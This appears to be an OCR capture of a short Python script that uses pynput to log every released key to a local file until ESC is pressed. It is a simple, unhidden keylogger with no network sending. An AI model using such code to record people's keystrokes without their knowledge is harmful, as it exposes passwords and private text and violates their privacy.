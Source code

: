 from pynput import keyboard

# Open the file in append mode and write session start
with open("key_log.txt", "a") as f:
    f.write("\n\nNew session started\n")

def on_release(key):
    key_str = str(key).replace("'", "")  # Convert key to string and remove quotes
    if key == keyboard.Key.esc:  # Check for ESC key
        return False
    # Open the file, append the key, and close the file
    with open("key_log.txt", "a") as f:
        f.write(key_str)

# Set up the listener for keyboard events
with keyboard.Listener(on_release=on_release) as listener:
    listener.join()
